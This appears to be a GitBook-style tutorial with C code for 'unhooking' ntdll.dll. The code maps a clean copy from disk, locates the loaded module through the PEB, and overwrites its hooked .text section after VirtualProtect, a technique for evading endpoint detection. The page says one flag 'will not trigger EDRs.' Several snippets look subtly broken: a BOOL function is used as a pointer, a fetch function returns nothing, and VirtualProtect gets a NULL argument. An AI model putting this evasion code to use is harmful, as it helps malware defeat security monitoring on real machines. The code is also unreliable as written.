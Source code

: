# NTDLL Unhooking - From Disk

## Introduction

REMINDER: When a DLL is read from disk the offset will be 0x400 (1024).&#x20;

<mark style="color:yellow;">**Tl;DR**</mark> Mapping an image into memory rather than reading from disk is more reliable and preferred method.



## Reading NTDLL

The first step is to read NTDLL from disk (C:\Windows\System32\ntdll.dll). There are two methods we can use to do this.&#x20;

* ReadFile (Reads file from disk - 1024 offset)
* CreateFileMapping & MapViewOfFile - (4096 offset MUST include`SEC_IMAGE` or `SEC_IMAGE_NO_EXECUTE` flags in `CreateFileMappingA)` or offset remains 1024.

I'm not going to include a ReadFile example.&#x20;

## Mapping NTDLL

Something worth noting: SEC\_IMAGE\_NO\_EXECUTE does not trigger [PsSetLoadImageNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine) callback. Using this will not trigger EDRs.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CreateFileMappingW & MapViewOfFile

```c
BOOL MapNtdllFromDisk() {
    HANDLE hFile = NULL;
    HANDLE hMappingFile = NULL;

    hFile = CreateFileW(ntdllFullPath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        wprintf(L"CreateFileW Failed %d\n", GetLastError());
        return FALSE;
    }
    DWORD dwFileSize = GetFileSize(hFile, NULL);
    if (dwFileSize == INVALID_FILE_SIZE) {
        wprintf(L"GetFileSize Failed %d\n", GetLastError());
        return FALSE;
    }
    // Use SEC_IMAGE_NO_EXECUTE (needed for offset & not to trigger callback)
    hMappingFile = CreateFileMappingW(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, 0, (LPCWSTR)NULL);
    if (!hMappingFile) {
        wprintf(L"CreateFileMappingW Failed: %d\n", GetLastError());
        return FALSE;
    }

    LPVOID lpBuffer = MapViewOfFile(hMappingFile, FILE_MAP_READ | FILE_MAP_COPY, 0, 0, 0);
    if (lpBuffer == NULL) {
        wprintf(L"MapViewOfFile Failed: %d\n", GetLastError());
        return FALSE;
    }

    wprintf(L"lpBuffer: %p\n", lpBuffer);
}
```

####

### Reading vs Mapping NTDLL

Sometimes when the `ntdll.dll` file is read from disk rather than mapped to memory, the offset of its text section might be 4096 instead of the expected 1024.&#x20;

Mapping the `ntdll.dll` file to memory is <mark style="color:yellow;">more reliable since the text section offset will always equal the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`IMAGE_SECTION_HEADER.VirtualAddress`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">offset of the DLL file</mark>.



## Unhooking NTDLL



### 1.) Get NTDLL Base Address

There are multiple ways to get a local NTDLL base address. Here is the best way:

* InMemoryOrder.Flink->Flink is a pointer to the second entry in the linked list. This is `ntdll.dll`, the first entry is the running process (unhooking\_ntdll.exe).
* InMemoryOrder.Flink->Flink actually points to the <mark style="color:yellow;">END</mark> of the entry rather than the beginning. The size of the LIST\_ENTRY structure is 0x10, therefore we subtract 0x10 to move the pointer to the beginning.

```c
PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}
```

Alternatively, you can use GetModuleHandle() but is a worse approach than above.

### 2.) Fetching The Local NTDLL.DLL Text Section

Getting NTDLL.DLL Text section is easy as getting `BaseOfCode` & `SizeOfCode` from `PIMAGE_OPTIONAL_HEADER`

```c
BOOL FetchLocalTextSectionNtdll(PVOID pBaseAddress) {
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pBaseAddress + pDosHeader->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    DWORD dwSizeOfText = pOptionalHeader->SizeOfCode;
    PVOID pAddressOfText = pBaseAddress + pOptionalHeader->BaseOfCode;

}

```

Alternatively, you can iterate pNtHeaders->FileHeader.NumberOfSections and search .text.&#x20;



### 3.) Fetching the Unhooked NTDLL.DLL Text Section

We can use our mapping function we created earlier to get the base address of the unhooked ntdll.dll .text section.

We then simply add the base address with the offset (4096 for mapping, 1024 for ReadFile).

```c
ULONG_PTR pUnhookedTxtNtdll = (ULONG_PTR)(MapNtdllFromDisk()) + 4096; // or IMAGE_SECTION_HEADER.VirtualAddress of ntdll.dll
```



### 4.) .Text Section Replacement

We now have everything we need. We can now swap the text section of the unhooked ntdll with the hooked using **memcpy**.

Before we swap we need to change permissions via `VirtualProtect` WinAPI by setting the `PAGE_EXECUTE_WRITECOPY` or `PAGE_EXECUTE_READWRITE` flags.&#x20;

After we've copied the text section we will change back to original permissions.

```c
BOOL SwapNtdllTextSections(IN PVOID pLocalNtdll, IN PVOID pUnhookedNtdll, IN DWORD dwSizeOfText) {
    wprintf(L"Local NTDLL: %p\nUnhooked NTDLL: %p\nSize of Text: %d\n", pLocalNtdll, pUnhookedNtdll, dwSizeOfText);
    // Update Local NTDLL Memory Permissions to RWX Access (Currently only RX)
    DWORD dwOldPermissions = 0;
    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, PAGE_EXECUTE_WRITECOPY, &dwOldPermissions)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    getchar();
    // Copy Memory from Unhooked to Local
    memcpy(pLocalNtdll, pUnhookedNtdll, dwSizeOfText);

    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, dwOldPermissions, NULL)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    return TRUE;
}
```

